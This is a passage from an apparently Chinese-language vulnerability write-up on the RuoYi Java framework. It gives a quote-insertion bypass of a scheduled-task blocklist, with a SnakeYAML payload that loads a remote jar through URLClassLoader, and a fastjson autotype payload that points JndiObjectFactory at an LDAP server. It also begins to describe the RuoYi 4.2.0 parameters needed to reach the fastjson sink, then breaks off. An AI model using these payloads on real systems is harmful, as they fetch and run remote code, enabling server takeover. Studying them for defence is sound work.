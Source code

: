 - 定时任务屏蔽http(s)远程调用  
  
- 定时任务屏蔽rmi远程调用  
  
**Bypass**  
咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式例如:  

```
org.yaml.snakeyaml.Yaml.load(’!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“**h’t’t’p’:**//127.0.0.1:88/yaml-payload.jar”]]]]’)

```

# 0x07 fastjson反序列化  
  
关注两个函数 parse 和 parseObject JSONObject.parse  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicNcjosiaNQKic6wdn2Y3iaj7yyJl90iaMju7W8rhOL5TtlibSTCUm6UcZtbg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicu5Uedr4yrujUOPMgLnl1Xlib1iax3NNVKUoEWA07gmgVzQGwj784iattg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicsXng3uWQEgYvVGIcMuVXLPpJjbHRDHElrXvoKic2ZTUsrBTuRIy0mdg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
开启 autotype  

```
params[@type]=org.apache.shiro.jndi.JndiObjectFactory&params[resourceName]=ldap://192.168.12.76:1389/09rlhv

```

## ruoyi4.2.0  
  
初看这个数据包一堆参数，有点复杂，根据之前的分析梳理一下，需要的参数是 
```
tplCategory
```

  
为
```
tree
```

  
，才能走到
```
fastjson漏洞点
```

  
,认真梳理一下需要的参数，发现还需要
```
treeCode&treeParentCode
```
